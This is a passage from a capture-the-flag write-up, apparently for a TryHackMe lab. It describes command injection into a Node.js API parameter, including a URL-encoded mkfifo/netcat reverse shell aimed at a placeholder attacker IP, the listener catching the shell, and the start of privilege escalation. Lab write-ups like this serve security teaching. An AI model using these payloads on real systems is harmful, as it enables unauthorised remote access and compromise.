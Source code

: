 - We got a response! Now reverse shell time, you'll need Burp for this one. I used classic `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] [PORT] >/tmp/f` shell but in order to upload it it needs to be URL encoded.

  ```
  REQUEST:
  
  POST /api/items?cmd=require("child_process").exec("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+[YOUR-THM-IP]+4444+>/tmp/f") HTTP/1.1
  Host: 10.10.48.183
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Cookie: token=this_is_not_real
  Upgrade-Insecure-Requests: 1
  If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
  Priority: u=0, i

  RESPONSE:
  
  HTTP/1.1 200 OK
  Server: nginx/1.14.0 (Ubuntu)
  Date: Wed, 21 May 2025 21:50:32 GMT
  Content-Type: text/html; charset=utf-8
  Connection: keep-alive
  X-Powered-By: Express
  ETag: W/"27-hyVNLWK8VBc+cTKoitWKEav28lY"
  Content-Length: 39
  
  vulnerability_exploited [object Object]
  ```

- If you did it correctly, you'll have a shell on your listener.

  ```
  nc -lvnp 4444                    
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.48.183] 48390
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  user
  $ id
  uid=1000(user) gid=1000(user) groups=1000(user),30(dip),46(plugdev)
  ```

---

## 🧍 User Privilege Escalation

- First flag is already there, but to get the second flag we will need to escalate 2 times.

  ```
  user@ubuntu:/home$ cd user
  user@ubuntu:~$ ls -al
  total 48
  drwxr-xr-x   8 user user  4096 Jan 27  2021 .
  drwxr-xr-x   4 root root  4096 Jan 15  2021 ..
  lrwxrwxrwx   1 root root     9 Jan 21  2021 .bash_history -> /dev/null
  -rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
  drwx------   2 user user  4096 Jan  4  2021 .cache
  drwxrwxrwx   4 user user  4096 Jan 27  2021 .firefox
  drwx------   3 user user  4096 Jan  4  2021 .gnupg
  drwxr-xr-x 270 user user 12288 Jan  4  2021 .npm
  drwxrwxr-x   5 user user  4096 May 21 21:24 .pm2
  ```